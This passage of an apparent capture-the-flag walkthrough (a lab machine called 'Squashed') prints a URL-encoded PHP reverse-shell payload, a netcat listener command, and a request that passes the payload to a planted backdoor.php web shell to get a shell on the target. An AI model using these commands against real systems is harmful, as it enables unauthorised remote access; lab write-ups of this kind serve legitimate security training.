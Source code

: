    After encoding we will obtain a reverse shell like this :
    
    `php%20-r%20%27%24sock%3Dfsockopen%28%22%3CIP-ADDRESS%3E%22%2C1234%29%3Bexec%28%22%2Fbin%2Fsh%20-i%20%3C%263%20%3E%263%202%3E%263%22%29%3B%E2%80%99`
    
4. The next step is to start a listener to listen for connection from the reverse shell that we have created. To start a listener use the following command in a new terminal :
    
    `nc -nvlp 1234`
    
    ![Untitled 17.png](Squashed/assets/Untitled%2017.png)
    
    After creating a listener, now we can supply the reverse shell as a parameter in the URL :
    
    `http://<IP-ADDRESS>/backdoor.php?cmd=php%20-r%20%27%24sock%3Dfsockopen%28%22%3CIP-ADDRESS%3E%22%2C1234%29%3Bexec%28%22%2Fbin%2Fsh%20-i%20%3C%263%20%3E%263%202%3E%263%22%29%3B%E2%80%99`
    
    Now if we press enter we can see that the site is continuously loading and if check our listener we could see that we have received back a shell.
    
    ![Untitled 18.png](Squashed/assets/Untitled%2018.png)
    
    ![Untitled 19.png](Squashed/assets/Untitled%2019.png)
    
5. Now we can start enumerating the target machine. Let’s first check the `/home/alex` directory.

![Untitled 20.png](Squashed/assets/Untitled%2020.png)
